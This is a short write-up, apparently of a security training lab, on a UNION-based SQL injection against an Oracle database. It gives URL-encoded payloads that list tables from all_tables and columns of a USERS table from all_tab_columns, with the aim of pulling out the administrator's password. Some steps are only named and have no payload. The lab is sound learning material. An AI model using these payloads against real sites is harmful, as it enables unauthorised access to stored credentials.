

On Oracle, you can find the same information as follows:
- You can list tables by querying `all_tables`:
    `SELECT * FROM all_tables`
- You can list columns by querying `all_tab_columns`:
    `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

First, we confirm that there is a SQL injection:

Then, we do the NULL technique to know the number of columns.

As we had to do the `from dual` technique, we know that we are in an Oracle database.
We list the name of all tables:
`'+UNION+SELECT+table_name,+NULL+FROM+all_tables--`

We now list the columns of this table:
`'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name%3d'USERS_DECOXG'--`

And finally, we perform the query with this data to extract the password of the administrator user.

